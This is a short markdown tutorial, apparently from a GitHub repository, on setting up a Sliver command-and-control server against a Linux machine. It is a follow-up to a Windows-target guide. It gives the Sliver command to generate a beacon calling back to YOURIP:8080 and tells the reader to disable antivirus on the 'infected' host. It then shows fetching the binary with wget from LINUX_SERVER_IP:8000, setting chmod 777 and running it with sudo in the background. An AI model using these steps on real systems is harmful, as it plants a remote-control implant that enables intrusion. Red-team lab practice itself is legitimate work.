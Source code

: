 
# How To Create a C2 Server Using Sliver (Linux - Linux)


This tutorial is a followup to the README for going from a Linux Host to a Linux Client instead of Linux Host -> Windows Client

## Server

All instructions up to this point are the same, except the way the beacon is generated. To generate for Linux instead of Windows, run this command with these flags:

`generate beacon -b YOURIP:8080 --os linux -a x86`

* The -os flag can be `mac` or `linux` and
* The -a flag is `x86` or `arm` (depending on your machine)

This will generate the binary for your Linux machine, and you can continue on in this guide for the remaining steps

## Client (To Be Infected)
Now that we have a file server on our Linux machine that is serving up the executable file, we can move on to our Windows Machine.
> Note the infected machine can also be a Linux machine, but it will not have some of the same features as a Windows client


### Disable Anti-Virus Protections
If you have any pre-existing antivirus protection, you will most likely need to disable them for this demonstration.

### Open Server on Any Internet Browser (or using wget)

Next, open any internet browser (if you have one) or use wget to access the file server that was previously opened in the Serve Up Executable step.

Using an internet browser, go to `http://LINUX_SERVER_IP:8000` and download the executable.

However, because some Linux distributions do not come prepackaged with an internet explorer (or UI at all), we will also be covering how to use wget.

### WGET
To use wget, type in your terminal:
`wget http://LINUX_SERVER_IP:8000/*YOURBINARYFILE*`

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4e65b523-a057-4081-a879-824d2ae8e5e5)

This should install the file to the directory you are currently in.

Give the script executable permissions using `CHMOD 777 *NAME_OF_BINARY*`

Then, simply run the binary in the background with sudo ./*NAME_OF_BINARY* &

Your Linux machine should now appear in your beacons!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/60ad21d3-25a4-4fa9-9beb-08cc266bb48c)


Now, you can continue back to the original guide in the [README](README.md)
